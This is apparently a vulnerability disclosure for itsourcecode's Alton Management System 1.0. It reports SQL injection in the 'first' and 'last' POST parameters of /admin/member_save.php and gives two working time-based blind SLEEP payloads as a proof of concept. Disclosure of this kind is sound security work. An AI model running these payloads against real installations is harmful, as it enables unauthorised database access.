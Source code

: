 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in as an administrator user, access the "/admin/member_save.php" page. This page can pass in the last and first parameters, both of which can lead to SQL injection vulnerabilities due to lax filtering.
<img width="965" alt="image" src="https://github.com/user-attachments/assets/99282e55-6259-41aa-8aad-e49cca31aef5">

# Poc

```
Parameter: first (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123&first=123' AND (SELECT 9651 FROM (SELECT(SLEEP(5)))LDVG) AND 'Zjoq'='Zjoq&contact=123&address=123

Parameter: last (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: last=123' AND (SELECT 9207 FROM (SELECT(SLEEP(5)))IyrR) AND 'YcaK'='YcaK&first=123&contact=123&address=123
```
